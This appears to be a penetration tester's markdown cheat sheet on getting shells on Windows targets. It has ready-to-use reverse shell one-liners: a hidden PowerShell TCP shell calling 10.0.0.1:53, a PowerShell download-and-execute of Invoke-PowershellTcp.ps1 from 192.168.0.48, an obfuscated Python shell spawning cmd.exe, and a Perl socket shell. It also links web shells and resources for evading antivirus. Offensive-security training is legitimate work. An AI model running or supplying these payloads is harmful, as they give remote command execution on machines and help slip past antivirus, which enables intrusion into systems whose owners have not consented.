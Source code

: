 # Windows Shells 
Remember to check for AV before uploading common payloads! 
- [ ] Can you exec .NET commands or Powershell as well? 
- [ ] Web Shells 
- [ ] Reverse Shell Commands 
- [ ] Antivirus evasion 

## Test Connection with ping  
    tcpdump -i [interface] icmp   
    ping 127.0.0.1 
    powershell -c "Test-Connection 127.0.0.1"

## Web Shells 
[White winter wolf Linux and Windows web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) 

[Nishang Invoke-Powershell Script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) 
[ConPty shell](https://github.com/antonioCoco/ConPtyShell)  

## Reverse Shell Commands 
Powershell 
[Powershell reverse shell scripts](https://github.com/ivan-sincek/powershell-reverse-tcp)  

    powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 
    
    powershell -exec bypass -c "iwr('http://192.168.0.48:8000/Invoke-PowershellTcp.ps1')|iex" 

Python  

    C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 53)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
    
    
Perl 

    perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:53");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'  
    
    
## Antivirus Evasion  
[PHP payload encoder](https://www.gaijin.at/en/tools/php-obfuscator#result) 

[Example - obfuscating payload to get a reverse shell on Windows](https://medium.com/@defsecone/evading-windows-defender-using-obfuscation-techniques-2494b2924807) 


## Resources  
https://github.com/d4t4s3c/Reverse-Shell-Cheat-Sheet

